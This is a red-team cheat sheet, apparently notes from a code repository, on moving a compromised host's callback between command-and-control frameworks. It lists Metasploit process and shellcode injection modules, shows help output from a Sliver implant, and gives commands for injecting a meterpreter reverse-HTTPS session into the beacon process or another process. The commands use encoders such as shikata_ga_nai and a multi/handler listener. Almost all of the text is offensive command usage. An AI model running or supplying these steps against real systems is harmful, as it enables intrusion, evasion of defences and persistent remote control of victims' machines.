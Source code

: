 # Switching Callbacks

## 01 - Metasploit

TODO: Go through every MSF module

use post/windows/manage/exec_powershell

post/windows/manage/multi_meterpreter_inject

exploit/windows/local/payload_inject

post/windows/manage/shellcode_inject

post/windows/manage/reflective_dll_inject

## 02 - Sliver

### 2.1 - Help Menu

```
sliver (IMPLANT_NAME) > msf -h

Command: msf [--lhost] <options>
About: Execute a metasploit payload in the current process.

Usage:
======
  msf [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -t, --timeout    int       command timeout in seconds (default: 60)

sliver (IMPLANT_NAME) > msf-inject -h

Command: inject [--pid] [--lhost] <options>
About: Execute a metasploit payload in a remote process.

Usage:
======
  msf-inject [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -p, --pid        int       pid to inject into (default: -1)
  -t, --timeout    int       command timeout in seconds (default: 60)
```

### 2.2 - Usage

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload <payload>

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder <x86/shikata_ga_nai | x64/xor_dynamic>

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run
```

- Inject meterpreter session directly in the same beacon process

`sliver (IMPLANT_NAME) > msf [-e <x86/shikata_ga_nai | x64/xor_dynamic>] -i <iterations> -L <IP> -l <PORT> -m <payload>`

- Inject meterpreter session through another process

`sliver (IMPLANT_NAME) > msf-inject -p <pid> -e [x86/shikata_ga_nai | x64/xor_dynamic] -i <iterations> -L <IP> -l <PORT> -m <payload>`

## References

- [Lateral Movement Pass the Hash Attack](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)

- [Pentestlab Powershell Remoting](https://pentestlab.blog/tag/powershell-remoting/)

- [Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

- [Wadcoms](https://wadcoms.github.io/)

- [Getting the bacon from Cobalt Strike Beacon](https://www.crowdstrike.com/blog/getting-the-bacon-from-cobalt-strike-beacon/)

- [RCE on Windows From Linux Part 1 Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

- [CertCube Pass the Hash in Windows 10](https://blog.certcube.com/pass-the-hash-in-windows-10/)